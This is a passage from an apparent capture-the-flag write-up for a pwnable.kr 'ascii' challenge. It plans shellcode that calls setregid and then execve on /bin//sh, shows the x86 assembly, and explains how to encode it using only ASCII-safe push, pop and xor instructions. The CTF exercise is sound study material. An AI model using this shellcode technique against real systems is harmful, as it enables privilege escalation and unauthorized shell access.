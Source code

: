 We can quickly look at `/etc/group` in order to determine what value `setregid` must take:
```
ascii@pwnable:~$ cat /etc/group | grep ascii
ascii_easy:x:1040:
ascii_easy_pwn:x:1041:
ascii:x:1042:
ascii_pwn:x:1043:
```

So, we have to craft a shell that will execute
```
setregid(1043, 1043)
execve(?, 0, 0)
```

## Solving major problems for porting the shellcode to ascii shellcode

If we look at [this syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md), we can see that `execve` has number `11` and `setregid` has number `71`.

So, in x86_32 assembler, this would look like
```
mov eax, 71
mov ebx, 1043
mov ecx, 1043
int 0x80 

mov eax, 11
push hs//
push nib/
mov ebx, esp
mov ecx, 0
mov edx, 0
int 0x80
```

We need analogous primitives that give us something similar.

Thankfully, that link above solves a lot of the problems for us.
We have access to `push, pop, inc, dec` for all registers, and `xor al, some_byte`.
In particular, we can get something like `mov` for one byte just by doing
```
push 0x20
pop eax
xor al, 0x20

xor al, desired_byte
push eax
pop desired_register
```

What is this doing?
Firstly, we `push 0x20` onto the stack and `pop eax`, in order to set `eax` to `0x20`.
Then, `xor al, 0x20` makes the `al` register equal to `0`!
Then, since `xor 0, x = x`, we have a simple way to `mov` a byte into `eax`.
Finally, we use `push eax` followed by `pop desired_register` in order to get the desired value into our desired register.
